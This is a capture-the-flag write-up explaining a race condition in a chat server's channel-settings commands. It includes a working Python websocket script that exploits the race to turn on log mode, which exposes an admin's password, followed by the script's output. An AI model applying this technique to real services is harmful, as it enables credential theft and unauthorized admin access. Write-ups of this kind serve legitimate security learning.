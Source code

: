 In this challenge, we can exploit a race condition vulnerability. First, let's understand some of the features in the challenge:


- /join [channel]: switch to a different channel, if that channel is not set as `admin-only true`
- /create [channel]   create a new channel
- /delete [channel]   delete a channel
- /login [password]   log in as a moderator or admin.
- /set [prop] [value] Configure channels or users. This feature is the key to exploiting the vulnerability. We can set a channel to `log` mode so that joining that channel will return the log of all activity. However, the channel must be `admin-only` to enable this setting.

The plan is to create a new channel, set it to hidden so other players can't join, and then set that channel to `admin-only` to gain the ability to enable `log` mode. To access it later, we need to set `admin-only` to false. This requires executing three commands quickly to trigger the race condition.

```py
import websocket
import requests
import time
import random

# Create a session and log in
session = requests.Session()
url = 'http://challenge.utctf.live:5213/'
session.post(url + 'login', data={'username': 'a'})
cookies = session.cookies.get_dict()
ws_url = "ws://challenge.utctf.live:5213/socket"

def on_message(ws, message):
    if "/style" not in message:  # Skip style messages for better output
        print("[*]Received:", message)

randomNum = str(random.random())
def on_open(ws):
    commands = [
        f"/delete nglong05{randomNum}",
        f"/create nglong05{randomNum}",
        f"/join nglong05{randomNum}",
        "/set channel.hidden true",
        "/set channel.admin-only true",
        "/set channel.mode log",
        "/set channel.admin-only false"
    ]
    
    for cmd in commands:
        ws.send(cmd)
        time.sleep(0.02)  # race conditions

# Connect WebSocket
ws = websocket.WebSocketApp(
    ws_url,
    header=[f"Cookie: web-chat-userid={cookies.get('web-chat-userid', '')}"],
    on_message=on_message,
    on_open=on_open
)

ws.run_forever()
```
The output will be something like this:
```
[*]Received: /join 1qn6kvc8pyy0v a
[*]Received: Channel does not exist
[*]Received: Created channel 'nglong050.4822082942614303'
[*]Received: /create nglong050.4822082942614303 1qn6kvc8pyy0v a
[*]Received: Switched to channel 'nglong050.4822082942614303'
[*]Received: /join 1qn6kvc8pyy0v a
[*]Received: Updated property 'channel.hidden'
[*]Received: //channels general log mod-info
[*]Received: Updated property 'channel.admin-only'
[*]Received: Updated property 'channel.mode'
```

![alt text](image/image-3.png)
Notice that even though the channel is set to admin-only, we can still join it because we set it to false immediately after.

Now, we can view the log of the admin login along with their password.

Use that password to log in as an admin and retrieve the flag.
![alt text](image/image-4.png)